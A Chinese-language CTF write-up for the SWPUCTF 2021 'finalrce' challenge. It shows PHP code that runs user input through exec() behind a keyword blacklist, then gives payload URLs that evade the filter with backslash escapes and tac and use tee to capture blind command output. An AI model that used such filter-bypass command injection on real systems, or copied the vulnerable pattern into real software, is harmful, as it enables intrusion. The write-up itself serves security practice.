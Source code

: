 ## [SWPUCTF 2021 新生赛]finalrce
> url：https://www.nssctf.cn/problem/438
>知识点：无回显rce

```php
 <?php
highlight_file(__FILE__);
if(isset($_GET['url']))
{
    $url=$_GET['url'];
    if(preg_match('/bash|nc|wget|ping|ls|cat|more|less|phpinfo|base64|echo|php|python|mv|cp|la|\-|\*|\"|\>|\<|\%|\$/i',$url))
    {
        echo "Sorry,you can't use this.";
    }
    else
    {
        echo "Can you see anything?";
        exec($url);
    }
} 
```
这里把flag，cat，ls等字符给过滤掉了，但是/符号没有过滤
![alt text](image-100.png)
![alt text](image-101.png)

![alt text](image-102.png)
用system没用，那么就试一下tee
 因为没有回显，所以需要把查看出来的内容读取并且写入一个地方来查看，tee命令就是从标准输入读取，再写入标准输出和文件。简单说就是把查看的内容读取然后写入到后面的1.txt文件
构造payload
```
http://node7.anna.nssctf.cn:25613/?url=l\s /|tee 1.txt;
```
再访问1.txt
![alt text](image-103.png)
用样的方法cat flllllaaaaaaggggggg
构造payload
```
http://node7.anna.nssctf.cn:25613/?url=c\at flllll\aaaaaaggggggg |tee 2.txt
```
不知道为什么ca\t没用，那就
```
http://node7.anna.nssctf.cn:25613/?url=tac /flllll\aaaaaaggggggg|tee 2.txt
```
![alt text](image-104.png)
得到flag

## [UUCTF 2022 新生赛]websign
>url:https://www.nssctf.cn/problem/3053
